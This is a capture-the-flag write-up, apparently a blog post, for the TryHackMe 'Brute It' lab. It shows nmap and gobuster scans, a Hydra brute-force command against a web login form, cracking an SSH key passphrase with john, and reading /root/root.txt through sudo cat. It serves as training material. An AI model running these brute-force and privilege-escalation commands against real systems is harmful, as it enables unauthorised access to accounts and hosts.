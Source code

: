 ```yaml
---
layout: post
title: TryHackMe Brute It 
image: /assets/img/BruteIt/main.png
author: Edwards
date: 2020-11-08 
categories: [CTF, TryHackMe]
tags: [Web, Linux, Gobuster, Hydra]
math: true
---
```


# Brute It 

## Through this box I learned :
- Use Hydra to Brute-Force a password.
- Connect to SSH via RSA key. 
- Use GTFOBins to priv esc. 

### Section 1 : Scanning 

Let's kick it with nmap.
```bash
nmap -T4 -A -p- 10.10.247.14
```

![image](/assets/img/BruteIt/nmap.png)

We see that a web server is running on the port 80, let's check it.

![image](/assets/img/BruteIt/web.png)

It's just a configuration page, no useful informations in this page.
We can use a gobuster scan to check for hidden directories.
```bash
gobuster dir -u http://10.10.247.14:80/ -w /home/edwards/Documents/DirBuster-1.0-RC1/directory-list-2.3-medium.txt
```

![image](/assets/img/BruteIt/gobuster.png)

We found the /admin path. 
If we go to the page, we have a login page. 

![image](/assets/img/BruteIt/login.png)

If we inspect it, you can find a juicy information, we have the username to login.

![image](/assets/img/BruteIt/inspect.png)

### Section 2 : Brute-Force 

With this info we can brute-force with hydra to find the password.

We need to find different infos to launch it:
- URL.
- Type of form.
- Field for the Username.
- Field for the password.
- Failure message.

I just try to connect with the username and a random password to have the request.

![image](/assets/img/BruteIt/request.png)

We can then create our hydra command.
```bash
hydra -l admin -P /home/edwards/Downloads/rockyou.txt 10.10.247.14 http-post-form "/admin/:user=^USER^&pass=^PASS^:Username or password invalid"
```

![image](/assets/img/BruteIt/hydra.png)

Now we have a password to login. 

We arrive on a page when we have access to a RSA private Key for john.

![image](/assets/img/BruteIt/rsa.png)

### Section 3 : Crack RSA key 

We need to first use ssh2john to change the format of our RSA key.
```bash
ssh2john ./id_rsa > id_rsa.txt
```

Then use john to find the passphrase.
```bash
john --wordlist=/home/edwards/Downloads/rockyou.txt id_rsa.txt
```

![image](/assets/img/BruteIt/john.png)

Now we can to connect via SSH with the RSA key.
First, give the right authorization to your RSA file.
```bash
chmod 400 id_rsa 
```
Then connect.
```bash
ssh john@10.10.247.14 -i id_rsa
```

![image](/assets/img/BruteIt/ssh.png)

### Section 4 : Enum and Priv esc

The user.txt is the home directory of John.

After I uploaded linPEAS to find a way to escalate my privilege.

![image](/assets/img/BruteIt/upload.png)

Launch it after it's uploaded.

![image](/assets/img/BruteIt/flaw.png)

We can see that our user have the right to use the sudo command.

Type the command : 
```bash
sudo -l
```

We can see that we can use the following command as root : 

![image](/assets/img/BruteIt/root.png)

With the help of the website [!GTFOBins](https://gtfobins.github.io/gtfobins/cat/i)

I found that we can use a variable to read the "/root/root.txt" 
```bash
LFILE=/root/root.txt 
sudo cat "$LFILE"
``` 

![image](/assets/img/BruteIt/rootxt.png)

And we are done, thank you !
